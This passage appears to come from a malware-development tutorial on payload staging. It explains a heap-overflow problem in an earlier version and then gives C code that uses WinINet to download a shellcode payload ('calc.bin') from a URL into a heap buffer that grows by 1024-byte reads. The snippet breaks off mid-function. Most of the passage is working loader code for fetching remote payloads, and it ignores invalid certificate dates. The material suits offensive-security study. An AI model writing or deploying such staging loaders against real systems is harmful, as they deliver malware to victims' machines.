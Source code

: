 The above implementation works when the payload size is known. When the size is unknown or is larger than the number of bytes specified in `InternetReadFile`, a heap overflow will occur resulting in the binary crashing.

One way to solve this issue is by placing `InternetReadFile` inside a while loop and continuously reading a constant value of bytes, which for this example will be `1024` bytes. The bytes are stored directly in a temporary buffer which will be of the same size, `1024`. The temporary buffer will be appended to the total bytes buffer which will continuously be reallocated to fit each newly read `1024` byte chunk. Once `InternetReadFile` reads a value that is less than `1024` then that's the indicator that it has reached the end of the file and will break out of the loop.

### **Payload Staging With Dynamic Allocation - Code Snippet**


```
BOOL GetPayloadFromUrl() {

	HINTERNET	hInternet              = NULL,
			    hInternetFile          = NULL;

	DWORD		dwBytesRead            = NULL;

	SIZE_T		sSize                   = NULL; // Used as the total payload size

	PBYTE		pBytes                  = NULL; // Used as the total payload heap buffer
	PBYTE		pTmpBytes               = NULL; // Used as the temp buffer of size 1024 bytes

	// Opening an internet session handle
	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL) {
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Opening a handle to the payload's URL
	hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL) {
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Allocating 1024 bytes to the temp buffer
	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
	if (pTmpBytes == NULL) {
		return FALSE;
	}

	while (TRUE) {

		// Reading 1024 bytes to the temp buffer
		// InternetReadFile will read less bytes in case the final chunk is less than 1024 bytes
		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		// Updating the size of the total buffer
		sSize += dwBytesRead;

		// In case the total buffer is not allocated yet
		// then allocate it equal to the size of the bytes read since it may be less than 1024 bytes
		if (pBytes == NULL)
```